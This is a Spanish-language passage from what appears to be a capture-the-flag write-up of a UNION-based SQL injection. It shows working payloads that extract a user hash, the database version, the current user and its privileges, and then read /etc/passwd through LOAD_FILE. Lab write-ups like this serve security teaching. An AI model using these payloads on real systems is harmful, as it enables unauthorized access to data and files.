 ```bash
'union select  userhash from registration.registration -- -
```
{: .nolineno}


En el contenido de esta columna se puede identificar el mismo valor que viajaba en la cookie al realizar la petición con el usuario "madlies", sugiriendo que se trata de un identificador para ese usuario.


![hash](/validation/hash.png)

Dado que las otras dos columnas no parecen tener nombres llamativos, se inicia el proceso de obtener información de la base de datos, como como la verisión de  la misma.

```bash
' union select @@version-- -
```
{: .nolineno}


![version](/validation/version.png)

Se puede revisar quien se encuentra corrinedo la base de datos.

```bash
'union select user()-- -
```
{: .nolineno}

Se verifica que la base de datos está siendo ejecutada por el usuario **uhc**.


![user](/validation/user.png)



Con esta información, se procede a revisar los privilegios con los que cuenta el usuario **uhc** dentro de la base de datos.

```bash
' UNION SELECT  privilege_type FROM information_schema.user_privileges WHERE grantee="'uhc'@'localhost'"-- -
```
{: .nolineno}


![privs](/validation/privs.png)


Gracias a esta revisión, se constata que el usuario cuenta con el permiso **file**, que le permite leer archivos dentro del equipo. Por lo tanto, se plantea la posibilidad de intentar leer algún archivo de interés, como por ejemplo, `/etc/passwd`.



```bash
' UNION SELECT LOAD_FILE('/etc/passwd')-- -
```
{: .nolineno}
